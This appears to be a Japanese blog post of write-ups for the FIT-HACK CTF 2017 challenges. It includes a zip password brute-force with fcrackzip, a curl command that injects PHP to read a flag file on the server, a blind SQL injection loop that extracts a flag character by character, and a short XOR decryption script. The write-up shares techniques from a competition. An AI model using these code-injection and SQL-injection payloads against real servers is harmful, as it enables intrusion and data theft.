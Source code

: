 ```yaml
---
layout: post
alias: "/blog/2017/04/22/fit-hack-ctf-2017/"
date: "2017-04-22T01:04:40+09:00"
title: "FIT-HACK CTF 2017"
tags: [ "ctf", "writeup", "fit-hack-ctf", "guessing" ]
"target_url": [ "https://ctftime.org/event/451" ]
---
```


cryptoはかなりのguessing CTFだった。

-   前処理: <https://twitter.com/elliptic_shiho/status/852779435983986691>
-   it's\_solvable: <https://rawsec.ml/en/FIT-HACK-2017-write-ups/#100-it-s-solvable-crypto>
-   bignumber: <https://twitter.com/_n_ari/status/852777396302299136>

## flag

```
$ fcrackzip -u -l 0-4 flag.zip


PASSWORD FOUND!!!!: pw == 1864
fcrackzip -u -l 0-4 flag.zip  5.96s user 5.98s system 6% cpu 3:14.71 total
```

## Sorry

HTMLとしてinjectionできるなあと思っていたらphpとしてinjectionできていた。

``` sh
$ curl https://sorry.problem.ctf.nw.fit.ac.jp/in.php -F etc=$' <?php\necho `cat /var/tmp/flag`;\n?>'
FIT{fdsa__dasdas_32fa}
FIT{fdsa__dasdas_32fa} <?php
echo `cat /var/tmp/flag`;
?>:mail@example.com <br>Saved it thank you!!



```

## Let's login

SQLi

```
$ s=9n89_ ; while true ; do for c in `seq 0 9` `alpha` _ ; do echo $s$c ; if curl -s https://login.problem.ctf.nw.fit.ac.jp/login.php -F name=name -F pass="' union select name, pass from user where pass like 'FIT{$s$c%' -- " | grep mes1 ; then s=$s$c ; break ; fi ; done ; done
```

`FIT{9n89_y0u3u_9a811}`

## simple cipher

普通に逆関数を書くだけ

``` python
#!/usr/bin/env python3
import binascii
enc_mes = '0c157e2b7f7b515e075b391f143200080a00050316322b272e0d525017562e73183e3a0d564f6718'
key = 'J2msBeG8'

m = list(binascii.unhexlify(enc_mes))

mes = [ None ] * len(m)
j = 0
for a in range(len(key)):
    i = a
    for b in range(len(m) // len(key)):
        mes[i] = chr(m[j] ^ ord(key[a]))
        j += 1
        i += len(key)
mes = ''.join(mes).rstrip()

print(mes)
```
